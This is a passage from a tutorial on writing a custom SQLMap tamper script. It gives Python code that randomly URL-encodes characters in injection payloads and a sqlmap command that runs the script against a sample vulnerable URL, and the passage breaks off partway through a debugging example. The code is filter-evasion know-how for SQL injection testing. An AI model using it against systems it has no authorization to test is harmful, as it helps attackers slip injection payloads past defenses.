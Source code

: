 ### Step 4: More Advanced Example

Now, let's create a more advanced tamper script that randomly URL-encodes characters in the payload.

**Example: Random URL Encoding Tamper Script**
```python
#!/usr/bin/env python

import random

__priority__ = 1

def dependencies():
    pass

def tamper(payload):
    """
    Randomly URL encodes characters in the payload
    """
    if payload:
        encoded_payload = ""
        for char in payload:
            if random.randint(0, 1):
                encoded_payload += "%%%02x" % ord(char)
            else:
                encoded_payload += char
        return encoded_payload
    return payload
```

### Step 5: Save and Use the Tamper Script

**Save the Script:** Save your tamper script in the tamper directory of your SQLMap installation. For example, save it as `random_urlencode.py`.

**Use the Script:** Use the `--tamper` option in SQLMap to apply your custom tamper script.
```bash
sqlmap -u "http://example.com/vulnerable.php?id=1" --tamper=random_urlencode
```

### Step 6: Testing and Debugging

**Test:** Ensure the script works as intended by running SQLMap with different payloads.
**Debug:** Print debug information if necessary. You can add print statements within the `tamper` function to debug your script.

**Debugging Example**
```python
#!/usr/bin/env python

import random

__priority__ = 1

def dependencies():
    pass

def tamper(payload):
    """
    Randomly URL encodes characters in the payload
    """
    if payload:
        encoded_payload = ""
        for char in payload:
            if random.randint(0, 1):
```